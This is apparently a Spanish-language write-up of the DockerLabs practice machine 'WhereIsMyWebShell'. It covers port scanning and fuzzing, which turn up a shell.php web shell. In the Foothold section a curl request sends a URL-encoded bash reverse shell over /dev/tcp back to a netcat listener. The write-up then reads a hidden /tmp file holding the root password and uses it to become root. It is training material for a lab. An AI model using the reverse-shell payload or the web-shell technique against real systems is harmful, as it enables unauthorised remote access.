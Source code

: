 ```yaml
---
title: WhereIsMyWebShell
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-04-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - data leaks
  - fuzzing web
  - interactive tty
  - php
  - rce
  - information gathering
  - web analysis
  - foothold
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.092 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.092/0.092/0.092/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -n -Pn -oG nmap1
Host: 172.17.0.2 ()     Status: Up
Host: 172.17.0.2 ()     Ports: 80/open/tcp//http///     Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nmap -sCV -p80 -vvv 172.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
```terminal
http://172.17.0.2 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[172.17.0.2], Title[Academia de Inglés (Inglis Academi)]
```

---
## Web Analysis

El servicio web se presenta con una interfaz sencilla y sin funcionalidades visibles.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_1.png)

Al final del sitio se encuentra una posible pista.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_2.png)

Utilizo dirb para realizar un escaneo de extensiones comunes de configuración y scripts.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ dirb http://172.17.0.2/ -X .md,.txt,.php,.conf,.html
---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:2510)
+ http://172.17.0.2/shell.php (CODE:500|SIZE:0)
```

El escaneo revela un archivo potencialmente vulnerable `shell.php`. Este script podría permitir la ejecución de comandos arbitrarios.

Utilizo wfuzz para identificar parámetros válidos que puedan ser explotados dentro del archivo `shell.php`.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shell.php?FUZZ=id -t 200 --hc 404 --hw 227,0
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000115401:   200        2 L      4 W        66 Ch       "parameter"
```

El parámetro `parameter` responde con código 200 y diferencias en el contenido, lo que indica su procesamiento por parte del script. Y por web, confirmo la presencia de ejecución remota de comandos.

![](assets/img/dockerlabs-writeup-whereismywebshell/whereismywebshell1_3.png)

---
## Foothold

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=cat%20shell.php
<pre><?php
    echo "<pre>" . shell_exec($_REQUEST['parameter']) . "</pre>";
?>

</pre>
```

Esta vulnerabilidad me permite establecer una reverse shell utilizando bash.

* Se inicia una escucha con netcat en la máquina atacante.
* Luego se invoca el payload para obtener acceso interactivo al servidor.

```terminal
/home/kali/Documents/dockerlabs/whereismywebshell:-$ sudo nc -nvlp 4321
	listening on [any] 4321 ...

/home/kali/Documents/dockerlabs/whereismywebshell:-$ curl http://172.17.0.2/shell.php?parameter=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4321%200%3E%261%22

	... connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36708
www-data@83d254f24abc:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Privilege Escalation

Se configura una pseudo-terminal interactiva para mejorar la estabilidad de la sesión.

```terminal
www-data@83d254f24abc:/var/www/html$ script /dev/null -c bash
www-data@83d254f24abc:/var/www/html$ ^Z

/home/kali/Documents/dockerlabs/whereismywebshell:-$ stty raw -echo;fg
[1]  + continued  nc -nvlp 4321
				reset xterm

www-data@83d254f24abc:/var/www/html$ export TERM=xterm
www-data@83d254f24abc:/var/www/html$ export SHELL=bash
```

Enumero usuarios válidos del sistema mediante el archivo `/etc/passwd`, buscando aquellos con acceso a shells interactivos.

```terminal
www-data@83d254f24abc:/$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Teniendo en cuenta ls pista anterior, se inspecciona el directorio `/tmp` y se localiza un archivo oculto que contiene una contraseña.

```terminal
www-data@83d254f24abc:/$ cat /tmp/.secret.txt 
contraseñaderoot123
```

Finalmente, esta contraseña me proporciona acceso al usuario `root`.

```terminal
www-data@83d254f24abc:/$ su root 
Password: contraseñaderoot123

root@83d254f24abc:/# id
uid=0(root) gid=0(root) groups=0(root)
```
